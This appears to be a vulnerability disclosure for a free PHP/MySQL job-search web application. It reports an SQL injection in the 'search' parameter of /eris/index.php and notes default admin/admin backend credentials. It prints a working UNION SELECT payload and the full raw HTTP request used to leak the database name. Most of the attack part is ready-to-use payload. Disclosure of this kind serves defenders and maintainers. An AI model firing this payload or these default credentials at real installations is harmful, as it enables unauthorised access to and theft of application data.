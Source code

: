 # Complete Online Job Search System v1.0  has SQL injection

The password for the backend login account is: admin/admin

vendors: https://www.campcodes.com/projects/php/online-job-search-system-using-php-mysql-free-download/

Vulnerability File: /eris/index.php?q=hiring&search=

Vulnerability location: /eris/index.php?q=hiring&search=,search

Current database name: erisdb

[+] Payload: /eris/index.php?q=hiring&search=URC%27%20union%20select%201,2,3,4,5,6,7,8,9,database(),11,12,13,14,15,16,17,18,19--+ // Leak place ---> search

```sql
GET /eris/index.php?q=hiring&search=URC%27%20union%20select%201,2,3,4,5,6,7,8,9,database(),11,12,13,14,15,16,17,18,19--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=mho0fs263l0tis8l6v3lqpu6q4
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/170849677-6264ad57-2c22-45a4-9640-0dd07d3c94e3.png)

![image](https://user-images.githubusercontent.com/54017627/170849660-3b9b9499-a479-490c-9d91-85560dbebff1.png)
